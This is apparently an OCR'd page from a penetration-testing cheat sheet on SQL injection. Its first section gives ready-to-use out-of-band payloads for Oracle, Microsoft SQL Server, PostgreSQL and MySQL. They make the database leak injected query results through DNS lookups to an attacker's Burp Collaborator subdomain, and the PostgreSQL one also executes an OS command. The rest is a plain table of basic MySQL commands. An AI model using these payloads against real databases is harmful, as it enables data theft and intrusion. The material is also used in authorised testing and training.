 ### DNS lookup with data exfiltration <a href="#dns-lookup-with-data-exfiltration" id="dns-lookup-with-data-exfiltration"></a>

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                                                                                                                                                                                        |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                                                                                                                                                                               |
| PostgreSQL | <p><code>create OR replace function f() returns void as $$</code><br><code>declare c text;</code><br><code>declare p text;</code><br><code>begin</code><br><code>SELECT into p (SELECT YOUR-QUERY-HERE);</code><br><code>c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';</code><br><code>execute c;</code><br><code>END;</code><br><code>$$ language plpgsql security definer;</code><br><code>SELECT f();</code></p> |
| MySQL      | <p>The following technique works on Windows only:<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                |

###

### MySQL

| **Command**                                                       | **Description**                                          |
| ----------------------------------------------------------------- | -------------------------------------------------------- |
| **General**                                                       |                                                          |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p`                | login to mysql database                                  |
| `SHOW DATABASES`                                                  | List available databases                                 |
| `USE users`                                                       | Switch to database                                       |
| **Tables**                                                        |                                                          |
| `CREATE TABLE logins (id INT, ...)`                               | Add a new table                                          |
| `SHOW TABLES`                                                     | List available tables in current database                |
| `DESCRIBE logins`                                                 | Show table properties and columns                        |
| `INSERT INTO table_name VALUES (value_1,..)`                      | Add values to table                                      |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table                |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>`  | Update table values                                      |
| **Columns**                                                       |                                                          |
| `SELECT * FROM table_name`                                        | Show all columns in a table                              |
| `SELECT column1, column2 FROM table_name`                         | Show specific columns in a table                         |
| `DROP TABLE logins`                                               | Delete a table                                           |
| `ALTER TABLE logins ADD newColumn INT`                            | Add new column                                           |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn`         | Rename column                                            |
| `ALTER TABLE logins MODIFY oldColumn DATE`                        | Change column datatype                                   |
| `ALTER TABLE logins DROP oldColumn`                               | Delete column                                            |
| **Output**                                                        |                                                          |
| `SELECT * FROM logins ORDER BY column_1`                          | Sort by column                                           |
| `SELECT * FROM logins ORDER BY column_1 DESC`                     | Sort by column in descending order                       |